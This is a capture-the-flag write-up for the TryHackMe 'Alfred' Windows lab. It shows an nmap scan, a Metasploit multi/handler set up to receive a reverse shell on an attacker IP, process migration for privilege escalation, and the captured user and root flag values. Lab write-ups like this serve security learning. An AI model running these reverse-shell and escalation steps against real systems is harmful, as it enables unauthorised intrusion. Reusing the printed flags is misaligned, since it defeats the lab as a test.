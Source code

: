 ```yaml
---
name:
  - Alfred
Date: 19 April 2024
Platform: windows
Category: paid
Difficulty: easy
tags:
  - THM
Status: inprocess
IP:
---
```


## Improved skills
- privilege escalation
- network scanning
- token impersination
- bruteforce

## Used tools
1. NMAP
2. Hydra
3. Netcat
4. OSINT
5. Metasploit
6. Msfvenom
7. Windows command line & Powershell

---
```bash
┌──(kali㉿kali)-[~/30-days/Day_6]
└─$ sudo nmap -sV -A -T4 -Pn 10.10.153.195
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-19 09:18 EDT
Stats: 0:01:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.53% done; ETC: 09:19 (0:00:00 remaining)
Nmap scan report for 10.10.153.195
Host is up (0.23s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2024-04-18T13:18:28
|_Not valid after:  2024-10-18T13:18:28
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2024-04-19T13:20:01+00:00
|_ssl-date: 2024-04-19T13:20:15+00:00; +23s from scanner time.
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1|Phone (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows 7 SP1 (87%), Microsoft Windows 8.1 Update 1 (87%), Microsoft Windows 8.1 R1 (87%), Microsoft Windows Phone 7.5 or 8.0 (87%), Microsoft Windows Embedded Standard 7 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 22s, deviation: 0s, median: 22s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   228.66 ms 10.8.0.1
2   228.79 ms 10.10.153.195

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.05 seconds

```

![](img/8080.png)


![](img/user_flag.png)
#### Privilege Escalation

![](img/share.png)

![](img/shell.png)
Launch msfconsole and navigate to the handler. I prefer running the `msfconsole` command over running `msfdb run` because it lets you background shells without issues. For faster MSF results be sure to start the postgresql database first.
```
msfconsole
use exploit/multi/handler
set LHOST 10.8.45.125
set LPORT 1111
run
```

![](img/run.png)
Run `ps` and look for the PID of the svchost.exe process.
![](img/migrate.png)

![](img/root.png)

![](img/alfred.png)
# Trophy & Loot
user.txt
```
79007a09481963edf2e1321abd9ae2a0
```

root.txt
```
dff0f748678f280250f25a45b8046b4a
```